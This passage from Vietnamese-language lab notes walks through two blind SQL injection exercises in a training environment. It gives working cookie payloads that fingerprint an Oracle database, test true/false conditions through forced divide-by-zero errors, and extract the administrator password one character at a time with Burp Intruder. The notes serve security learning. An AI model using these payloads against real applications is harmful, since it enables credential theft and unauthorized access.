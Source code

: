 ⇒ Ta truy vấn: "Trong bảng users, có người dùng nào tên là administrator không?". Vì "Welcome back" xuất hiện, câu trả lời là có
- **Bước 4: Xác định độ dài mật khẩu của administrator:**
`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
⇒ Tiếp tục thử với các giá trị lớn hơn. Lặp lại cho đến khi "Welcome back" không xuất hiện nữa. Ta thấy LENGTH(password)>20, "Welcome back" biến mất, nghĩa là mật khẩu dài đúng 20 ký tự
⇒ Dùng Intruder để brute force

<aside>
💡

Cách dùng Intruder: Đầu tiên ta intercept sau đó forward, sau đó vào tab history HTTP, chọn cái phù hợp để send to repeater. Khi nào cần brute force thì send to Intruder

</aside>

- **Bước 5: Đoán từng ký tự của mật khẩu**
`TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`
⇒ Dùng Intruder để brute force

1. **Lab 12: Blind SQL injection with conditional errors**

<aside>
💡

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

</aside>

- Phân tích trang web:
Nếu truy vấn SQL gây ra lỗi, trang web sẽ hiển thị một thông báo lỗi tùy chỉnh (custom error message)
Ta có thể dùng thông báo lỗi này để suy ra thông tin (giống như chơi trò đoán đồ vật, nhưng dựa vào việc có lỗi hay không)
Nếu truy vấn không gây lỗi, trang web trả về bình thường (không có thông báo lỗi)
- **Bước 1: Kiểm tra lỗ hổng bằng cách gây lỗi cú pháp:**
`TrackingId=xyz'` ⇒ Có lỗi, vì dấu `'` thừa làm hỏng cú pháp SQL. Truy vấn gốc có thể là `SELECT * FROM tracking WHERE tracking_id='xyz'`
`TrackingId=xyz''` ⇒ Không có lỗi, vì `''` là một chuỗi rỗng hợp lệ trong SQL
- **Bước 2: Xác nhận CSDL**
`TrackingId=xyz'||(SELECT '')||'` ⇒ lỗi, vì trong Oracle, mọi truy vấn SELECT phải chỉ định một bảng (như dual)
`TrackingId=xyz'||(SELECT '' FROM dual)||’` ⇒ Không có lỗi, vì dual là bảng hợp lệ trong Oracle.
`TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||’` ⇒ Có lỗi, vì bảng not-a-real-table không tồn tại.
⇒ Kết luận: Trang web có lỗi SQL, cơ sở dữ liệu là Oracle.
- **Bước 3: Xác nhận bảng users tồn tại**
`TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'` ⇒ Không có lỗi, nghĩa là bảng users tồn tại.
- **Bước 4: Kiểm tra điều kiện đúng/sai bằng cách gây lỗi:**
`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
⇒ Có lỗi (vì 1=1 đúng, gây chia cho 0)
`TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
⇒ Khi 1=2, truy vấn không gây lỗi (HTTP 200) vì nó không chia cho 0 và trả về chuỗi rỗng
⇒ Tưởng tượng ta có truy vấn sau: "Nếu 1=1, hãy làm gì đó sai (chia 1 cho 0)". Vì 1=1 là đúng nên nó sẽ lỗi. Sau đó, ta hỏi: "Nếu 1=2, hãy làm gì đó sai". Vì 1=2 là sai, nên vế 2 ko được thực hiện, nên không báo lỗi
- **Bước 5: Xác nhận người dùng administrator tồn tại**